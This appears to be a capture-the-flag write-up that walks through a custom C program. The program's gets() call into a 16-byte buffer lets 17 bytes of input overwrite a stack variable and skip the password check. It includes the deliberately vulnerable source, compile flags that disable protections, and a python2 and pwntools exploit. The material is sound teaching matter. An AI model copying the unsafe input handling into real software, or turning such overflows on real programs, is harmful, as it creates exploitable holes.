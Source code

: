 ```yaml
---
description: 08/15/2023
---
```


# 1️⃣ 1️⃣ 01

This is an entirely custom project that I am extremely proud of. It consists of us overwriting variables on the stack in order to bypass compares so that you can grab the flag without even having the right password.

> Can you find the password?
>
> How can you get the flag without using the correct password?

## Static Source Code Analysis

```c
#include <stdio.h>
#include <string.h>

const char* hacked()
{
    const char* local_flag = {"XYC{H0wD1d1G3tH3r3?!}"};

    printf("This is a secret function.\n");
    printf("Access level 0 is required. All attempts to access will be logged.\n");
    printf("Oh yeah, here's your flag: %s\n", local_flag);

    return local_flag;

}

char * flag = "XYC{H0wD1d1G3tH3r3?!}";

int main()
{

    char code[16];
    int access = 0;

    printf("Please enter the secret code: \n");
    gets(code);
    fflush(stdout);

    if(strcmp(code, "1337") == 0)
    {
        flag = hacked();

        access = 1;
    }

    else
    {
        printf("Access denied, silent alarm has been triggered!\n");
    }

    if(access)
    {
        printf("Authentication successful as root (access level=%d) \n", access);
        printf("You are root, granting access... \nAccess granted, welcome root.\n");
        printf("Wow, you realized we could overflow the buffer and you could still get the flag? Nice.\nHere's your flag: %s", flag);
    }

    else
    {
        printf("Authentication failed as root (access level=%d)\n", access);
    }

    return 0;

}
```

Compile:

```
gcc 01.c -o 01 -m32 -fno-stack-protector -z execstack -no-pie -g
```

We can see that we have a `hacked()` function which contains our flag. Notice the return of `local_flag`.

We can also see that our flag is being set as a global so it can be accessed through main and passed throughout the program.&#x20;

Also, be conscious of the dangerous `gets()` call again, as we remember why this is dangerous from our last example in [00](00.md).&#x20;

Our `strcmp()` is being compared to our input to our buffer (`code`) which is of **16-bytes** and is looking for the correct input of "**1337**" so that we can access our secret function.

If we can input the password correctly, we will be granted access to the secret function.&#x20;

If not, we will trigger the alarm.

## Exploitation

### Manual Method

python2:

```
python2 -c 'print "A" * 17' > payload
```

Exploit:

```
./01 < payload
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Automated Method (pwntools)

exploit.py:

```python
from pwn import *

# Establish the connection to the program
p = process('./01')  # Change this to the actual path of the '01' program

context.log_level = 'debug'

# Wait for the ':' prompt
p.recvuntil(':')

# Send 17 bytes of 'A' characters
payload = b'A' * 17
p.sendline(payload)

# Print the program's output
print(p.recvall().decode())

# Close the connection
p.close()
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## `gdb`

We can see our payload of A's overwriting our variables on the stack so we can bypass the comparisons/checks and get straight into the right version of our `hacked()` function that we want.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We never inputed the correct password of "1337":

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>
